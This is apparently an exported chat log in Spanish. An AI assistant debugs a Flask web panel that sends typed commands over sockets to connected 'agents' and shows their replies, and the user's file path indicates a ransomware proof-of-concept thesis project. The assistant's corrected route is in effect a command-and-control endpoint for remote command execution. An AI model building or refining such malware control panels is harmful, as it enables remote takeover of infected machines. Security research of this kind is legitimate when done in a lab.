 2️⃣ **Si `output` está vacío en el HTML, pero en Flask tiene datos**, significa que Flask **no lo está pasando bien**.

3️⃣ **Si la sección `<pre>{{ output }}</pre>` ni siquiera aparece**, Flask no está enviando `output` correctamente.

* * *

**3️⃣ Solución con redirección y `session`**
--------------------------------------------

El problema podría ser que el `POST` está redirigiendo mal. Prueba esta versión:

📌 **Corrección en Flask usando `session`**:

```python
from flask import Flask, render_template, request, redirect, url_for, session

app.secret_key = "clave_secreta"

@app.route('/execute_command/<int:agent_id>', methods=['GET', 'POST'])
def execute_command(agent_id):
    if request.method == 'POST':
        command = request.form.get('command')
        agent_socket = connected_agents.get(agent_id)

        if not agent_socket:
            session['error'] = "Agente no está conectado"
            return redirect(url_for('execute_command', agent_id=agent_id))

        try:
            agent_socket.send(command.encode('utf-8'))
            agent_socket.settimeout(5)  # Evita bloqueos
            output = agent_socket.recv(4096).decode('utf-8')
            session['output'] = output  # Guardamos en sesión

        except socket.timeout:
            session['error'] = "El agente no respondió a tiempo"
        return redirect(url_for('execute_command', agent_id=agent_id))

    output = session.pop('output', None)
    error = session.pop('error', None)
    return render_template('execute_commands.html', agent_id=agent_id, output=output, error=error)
```

### **🔹 ¿Qué cambia aquí?**

✅ **Usamos `session`** para almacenar `output`, evitando problemas con `POST`.  
✅ **Redirigimos con `redirect(url_for())`** para evitar problemas con el reenvío del formulario.

**🔄 Ahora prueba nuevamente y dime si sigue sin mostrarse la respuesta.** 🚀

## Prompt:
 Directorio de C:\Users\alexander_tfg\Desktop\TFG\Ransomware_LLM\Ransomware_PoC\Client
